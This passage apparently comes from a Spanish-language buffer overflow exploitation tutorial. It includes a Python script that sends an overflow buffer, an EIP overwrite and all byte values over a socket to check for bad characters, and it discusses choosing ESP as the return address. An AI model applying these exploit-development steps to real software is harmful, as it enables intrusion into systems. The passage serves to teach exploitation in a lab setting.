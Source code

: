 Reiniciaremos nuevamente nuestro programa y ejecutaremos nuestro exploit, y podremos confirmar que tenemos el control `EIP` ya que sobrescribimos `EIP`con 4 `B`:
### Identificando malos personajes

Nuestro siguiente paso es identificar si debemos evitar el uso de caracteres incorrectos en nuestra entrada. Podemos comenzar ejecutando `ERC --bytearray` in `x32dbg` para crear nuestro `ByteArray_1.bin` archivo. Luego podemos copiar las mismas `bad_chars()` funciones de nuestro exploit anterior y, una vez más, cambiar de escribir la carga útil en un archivo a enviarla al puerto:

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

bad_chars()
```

Una vez que reiniciamos nuestro programa `x32dbg` y ejecutamos nuestro exploit, podemos usar `ERC --compare` para comparar los bytes en la `ESP` dirección con el `ByteArray_1.bin` archivo:

![](../../Images/Pasted%20image%2020240925170128.png)

Como podemos ver, todos los bytes coinciden entre la memoria y `ByteArray_1.bin`, lo que significa que este programa no tiene ningún carácter incorrecto.

### Cómo encontrar una instrucción de devolución

Ahora que tenemos el control `EIP` y sabemos qué caracteres incorrectos debemos evitar en nuestra carga útil, necesitamos encontrar una instrucción para ejecutar la carga útil que colocaremos en la pila. Una vez más, dado que este programa no tiene ningún carácter incorrecto, podemos usar la `ESP`dirección como nuestra dirección de retorno. (Intente aprovechar el programa usando `ESP` como dirección de retorno).
